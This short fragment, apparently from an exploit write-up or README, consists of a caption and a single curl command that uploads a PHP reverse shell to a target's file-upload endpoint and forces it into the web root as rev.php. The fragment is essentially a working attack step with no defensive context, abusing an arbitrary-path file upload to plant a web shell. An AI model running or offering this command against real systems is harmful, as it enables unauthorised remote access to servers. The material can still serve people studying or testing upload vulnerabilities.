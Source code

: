
Upload shell using post request and additional parameters:
---
```sh
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```